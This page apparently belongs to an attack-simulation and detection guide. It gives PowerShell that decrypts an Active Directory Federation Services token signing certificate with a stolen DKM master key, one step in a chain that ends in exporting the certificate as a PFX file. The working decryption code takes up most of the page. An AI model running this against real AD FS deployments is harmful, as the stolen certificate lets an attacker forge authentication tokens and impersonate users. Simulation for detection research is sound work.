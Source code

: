 # Decrypt Active Directory Federation Services (AD FS) Token Signing Certificate

After [extracting the AD FS token signing certificate](extractADFSTokenSigningCertificate.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the master key value to derive a symmetric key and decrypt the AD FS certificate.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we exported AD FS certificates (token signing and encryption) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell commands below as the variable `$key`.
    * AD FS token signing certificate (Encrypted format)
        * After [extracting the token signing certificate](extractADFSTokenSigningCertificate.md), the output is saved to the variable `$encTokenSigningPfx`. You can use it in the PowerShell commands below.

## Decrypt Token Signing Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$tokenSigningPfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_27_decrypt_token_signing_certificate.png)

## Output

Use the variable `$tokenSigningPfx` (cipher text) in the next step to [export the AD FS token signing certificate as a PFX file](exportADFSTokenSigningCertAsPfxFile.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)